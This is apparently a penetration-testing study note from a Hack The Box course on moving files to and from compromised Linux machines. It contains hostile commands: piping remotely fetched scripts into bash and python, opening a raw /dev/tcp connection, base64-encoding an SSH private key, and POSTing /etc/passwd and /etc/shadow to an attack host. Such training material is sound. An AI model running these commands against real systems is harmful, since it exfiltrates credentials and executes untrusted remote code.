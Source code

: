```yaml
---
Title: HTB\File_Transfers\Linux
tags:
  - os/linux-
source: HTB\File_Transfers\Linux
---
```


# HTB\File_Transfers\Linux

> Źródło: `HTB\File_Transfers\Linux`

## Base64 encoding

```bash
cat id_rsa |base64 -w 0;echo
echo -n '<base64 encoded>' |base64 -d > id_rsa
```


## Using wget
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## using cURL
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Because the way linux operates, we can use most of the tools fileless.

Note: Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

## fileless download using curl
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

we can do the same with python file using wget
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
Hello World!
```

There may also be situations where none of the well-known file transfer tools are available.
As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

Connect to the server:
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```


http get request
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```


print the response
```bash
cat <&3
```

## using ssh
```bash
ssh downloads
```

Enabling the ssh server:
```bash
sudo systemctl enable ssh
```
starting the ssh server
```bash
sudo systemctl start ssh
```
checking for ssh listening port
```bash
Ovas420@htb[/htb]$ netstat -lnpt
```

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
```bash
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
```


simple scp file transfer
```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```

Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

# Upload operations
## Using python HTTP.server module

Install uploadserver module
```bash
sudo python3 -m pip install --user uploadserver
```
Now we need to create a certificate, in this example we are using a self-signed certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.
```bash
mkdir https && cd https
```

starting web server
```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

Uploading from a compromised machine
```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

we use --insecure because we used a self-signed certificate that we trust

Since many different languagues are usually installed on the linux machines, we can use most of them to upload files from them to our machine
### python3
```bash
python3 -m http.server
```

### python2.7
```bash
python2.7 -m SimpleHTTPServer
```

### PHP
```bash
php -S 0.0.0.0:8000
```

### Ruby
```bash
ruby -run -ehttpd . -p8000
```

Download the file from the target machine onto our machine
```bash
wget 192.168.49.128:8000/filetotransfer.txt
```

**Note**: `When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file.`

We may find that some companies allow ssh for outbound connections, and if that is the case, we can use ssh server with scp to upload files

```bash
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

**Powiązane:** [[Graph-Home]] [[OS-Linux]]

